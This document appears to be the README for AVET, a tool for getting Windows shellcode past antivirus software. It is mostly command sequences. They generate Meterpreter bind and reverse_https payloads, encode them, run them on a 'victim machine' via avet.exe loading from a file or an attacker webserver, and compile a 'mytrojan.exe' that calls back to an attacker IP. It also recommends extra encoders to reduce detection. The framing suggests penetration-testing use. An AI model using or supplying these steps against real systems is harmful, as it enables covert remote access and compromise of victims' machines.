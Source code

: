 AntiVirus Evasion Tool
======================

Avet was developed based on Backtrack 5, but also works with Kali 2. Shellcode downloading (-u) is a bit buggy and noisy, so better use the -f switch. 

Because of the huge interest I decided to spend some time for enhancing & developing avet.

For basics about antivirus evasion have a look at my old article: https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf
and: https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines
- avet includes two tools, avet.exe with different antivirus eavasion techniques and make_avet for compiling a preconfigured binary file
- avet.exe loads ASCII encoded shellcode from a textfile or from a webserver, further it is using an av evasion technique to avoid sandboxing and emulation
- for encoding the shellcode the tool format.sh and sh_format are included
- this readme applies for Kali 2 and tdm-gcc

How to install tdm-gcc with wine:
https://govolution.wordpress.com/2017/02/04/using-tdm-gcc-with-kali-2/


How to use avet.exe
-------------------

You can use the precompiled avet.exe file as a shellcode loader.

Example 1, loading shellcode from a file:

Attackers machine:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt & avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -f shellcode.txt
```

Example 2, loading shellcode from a webserver:

Attackers machine:
```
$ msfpayload windows/meterpreter/bind_tcp C > sc.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt to your webroot and avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -u yourserver/sc_clean.txt
```

How to use make_avet
--------------------
Compile if needed:
```
$ gcc -o make_avet make_avet.c
```

Example 1, compile shellcode into the .exe file:
```
$ msfpayload windows/meterpreter/reverse_https lhost=192.168.2.112 lport=443 C > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ ./make_avet -f sh_clean.txt
$ wine gcc.exe -o mytrojan.exe avet.c
```

Example 2, make an .exe file that downloads a shellcode from a webserver:
```
$ msfpayload windows/meterpreter/reverse_https lhost=192.168.2.112 lport=443 C > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ cp sh_clean.txt /var/www
$ ./make_avet -u 192.168.2.112/sh_clean.txt
$ wine gcc.exe -o mytrojan.exe avet.c
```

Check out the other options as well:
```
-f compile shellcode into avet.exe, needs filename
-u load and exec shellcode from url using internet explorer
-p print debug information
-h help
```

Some notes
----------

Rebuild avet.exe:
No problem, ensure no content is in defs.h (`echo "">defs.h`), then compile with:
```
$ wine gcc.exe -o avet.exe avet.c
```

Have a look for build.sh for easier handling.

For adding more random (and lower chances of detection) to the binary additionaly use msf encoders like shikata ga nai.
